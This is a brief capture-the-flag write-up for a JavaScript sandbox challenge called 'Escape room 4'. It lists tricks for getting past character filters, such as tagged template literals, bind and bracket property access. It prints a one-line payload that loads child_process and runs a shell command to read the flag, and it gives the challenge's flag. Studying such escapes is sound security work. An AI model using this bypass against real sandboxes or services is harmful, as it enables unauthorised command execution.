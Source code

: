 # Escape room 4

## Write-up

To bypass the restrictions you can:
 - Use two backticks instead of `()` to call functions
 - Keep the arguments in the correct order with `bind`
 - Use `something["some_name"]` instead of `something.some_name` to access properties
 - Use backticks instead of `"` or `'` to create strings
 - And we do not need numbers

```javascript
console[`log`][`bind`]`${require[`bind`]`${`child_process`}```[`spawnSync`][`bind`]`${`cat flag*`},${{shell:true}}```[`stdout`][`toString`]`utf8`}```
```

## Flag

`flag-108a55858ba2f0a498fb14666bab109f`
